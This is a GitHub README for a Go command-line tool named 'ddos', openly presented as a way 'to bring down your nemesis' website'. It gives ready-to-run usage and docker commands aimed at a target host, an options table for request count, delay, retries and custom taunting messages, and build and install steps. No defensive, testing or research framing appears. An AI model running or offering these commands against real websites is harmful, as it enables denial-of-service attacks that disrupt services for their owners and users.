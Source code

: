 # DDOS
[![License](https://img.shields.io/github/license/Streamer272/ddos)](https://github.com/Streamer272/ddos/blob/master/LICENSE)
[![Stars](https://img.shields.io/github/stars/Streamer272/ddos)](https://img.shields.io/github/stars/Streamer272/ddos)

Simple DDOS application to bring down your nemesis' website

## Usage
```bash
ddos --address www.mynemisis.com:443 --output mynemesis-ddos.log --message "HELLO SUCKER" --max-retry-count 100
```

| Option (short) |    Option (long)    |                        Description                        |
|:--------------:|:-------------------:|:---------------------------------------------------------:|
|      `-d`      |      `--delay`      |                       Request delay                       |
|      `-r`      | `--max-retry-count` |                    Maximum retry count                    |
|      `-R`      |  `--request-count`  |                       Request count                       |
|      `-a`      |     `--address`     |               Your nemesis' website address               |
|      `-m`      |     `--message`     |                  Custom message to send                   |
|      `-o`      |     `--output`      |                   Output log file path                    |
|      `-l`      |    `--log-level`    |          Log level (NONE / ERROR / WARN / INFO)           |
|      `-H`      |      `--http`       | Use HTTP message (only when `--message` is not specified) |
|      `-i`      |  `--ignore-error`   |       Ignore errors; not terminate program on error       |
|      `-N`      |    `--no-color`     |                Display non-colored output                 |

## Requirements
- Computer running Linux
- Go compiler
- Git

## Installation
- Clone repository using git - `git clone https://github.com/Streamer272/ddos.git`
- Move into repository folder - `cd ddos`
- Build Go - `go build`
- Add to `/usr/bin` [Optional] - `cp ./ddos /usr/bin/ddos`

## Run in docker
```bash
docker run -it --rm -v $(pwd):/home/logs streamer272/ddos --address www.mynemesis.com:443 --output /home/logs/ddos.log --message "HELLO SUCKET" --max-retry-count 100
```

## License
This project is licensed under [MIT](https://github.com/Streamer272/ddos/blob/master/LICENSE) license.
